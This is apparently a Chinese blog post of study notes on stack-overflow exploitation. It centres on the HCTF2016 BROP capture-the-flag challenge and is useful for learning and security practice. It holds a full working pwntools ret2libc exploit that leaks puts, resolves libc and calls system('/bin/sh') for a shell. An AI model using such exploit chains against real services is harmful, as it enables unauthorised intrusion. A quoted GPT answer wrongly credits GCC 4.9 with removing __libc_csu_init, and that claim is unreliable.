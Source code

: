 ﻿---
layout:     post
title:      栈溢出基础浅记（3）
subtitle:   
date:       2023-10-07
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

### 控制rdx的方法

从上一篇文章可以发现，鲜有类似`pop rdx;ret`这样的指令。

wiki中介绍了一个方法，就是会找到strcmp函数，在执行该函数时，rdx会被设置为要被比较的字符串的长度，所以可以通过找到strcmp函数，从而控制rdx。

### 关于[HCTF2016 的出题人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop)的发现

本来想着先用常规的方法做这道题，看看会不会出问题结果发现最后在执行`payload = b'a' * 64 + b'deadbeef' + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)`时总是失败，总结原因应该时libc版本的问题。同时试了下wiki给出的rop，也不能成功运行。

~~通过泄露got地址，发现puts地址为0x570a7ff04a680e50，__libc_start_main地址为0x570a7ffa31a29dc0，两个综合发现结果只有`libc6_2.35-0ubuntu3.4_amd64`，但是使用该libc的地址，得到的system函数的位置也并不正确。证明确实是libc版本有问题。~~

！！！！其实上面的说法不正确！！！并不是libc版本的问题！

可以用的exp如下：

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher
# 0x00000000004007c3 : pop rdi ; ret
# 0x00000000004007c1 : pop rsi ; pop r15 ; ret
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
pop_rdi = brop_gadget + 9
pop_rsi_pop_r15 = brop_gadget + 7
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

# sh = remote("127.0.0.1", 9999)
sh = process('./brop')

payload = b'a' * length + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(stop_gadget)

sh.recv()
sh.sendline(payload)

# 搞不懂为啥接受8个字节的话，最后两个字节不是0，也就是说貌似got表中的__libc_start_main的地址只有6个字节
# 现在这样接受6个字节是对的
libc_puts_addr = u64(sh.recv(6).ljust(8, b'\x00'))
log.success('puts ' + hex(libc_puts_addr))

libc = LibcSearcher('puts', libc_puts_addr)
libc_base = libc_puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

# libc = ELF('./libc.so.6')
# libc_base = libc_puts_addr - libc.symbols['puts']
# system_addr = libc_base + libc.symbols['system']
# binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success('libc_base ' + hex(libc_base))
log.success('system_addr ' + hex(system_addr))
log.success('binsh_addr ' + hex(binsh_addr))

# 我如果没修改rsi，同样也不能得到shell 估计是因为原来rsi里面的值是那个特别长的字符串
payload = b'a' * length + p64(pop_rdi) + p64(binsh_addr) + p64(pop_rsi_pop_r15)+ p64(0) +p64(0) + p64(system_addr) + p64(stop_gadget)

sh.sendline(payload)
sh.interactive()

```

之后，我想着直接编重新用我的gcc编译一下（gcc version 11.4.0），使用命令为`gcc -fno-stack-protector -no-pie main.c -o brop`，这时使用ROPgadget查看，结果如下：

```
❯ ROPgadget --binary brop --only 'pop|ret'
Gadgets information
============================================================
0x000000000040117d : pop rbp ; ret
0x000000000040101a : ret

Unique gadgets found: 2
```

基本上没有pop，ret了，然后使用ida pro逆向，发现确实已经没有了`__libc_csu_init`函数，询问GPT的结果如下：

> 根据GCC的更新历史，自GCC版本4.9以后，新版本的GCC已经引入了新的启动过程（startup process）和初始化过程（initialization process）。在新的初始化过程中，不再使用libc_csu_fini和libc_csu_init函数。
>
> 在旧版本的GCC中，libc_csu_fini和libc_csu_init函数是用于在程序启动和结束时执行一些初始化和清理工作的。libc_csu_fini用于清理由libc_csu_init函数初始化的全局变量和静态变量，而libc_csu_init函数则负责初始化这些变量。
>
> 然而，由于新版本的GCC引入了更高级的启动和初始化过程，这些过程已经被重新设计和重构。因此，不再需要使用libc_csu_fini和libc_csu_init函数来进行初始化和清理工作。
>
> 总结起来，最新版的GCC编译的文件不再包含libc_csu_fini和libc_csu_init函数。

### 关于Blind ROP

这里写一下思路

- 找到栈溢出长度（暴力枚举）
- 泄露canaries 参考[canary的各种姿势----pwn题解版 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4657)
- 找到stop_gadget(即可以使程序继续成功运行的gadget)
- 找到brop_gadget
- 找到puts地址
- 泄露libc地址
- pwn

整个过程挺繁琐的，感觉先可以做做别的，有时间再做这种题目
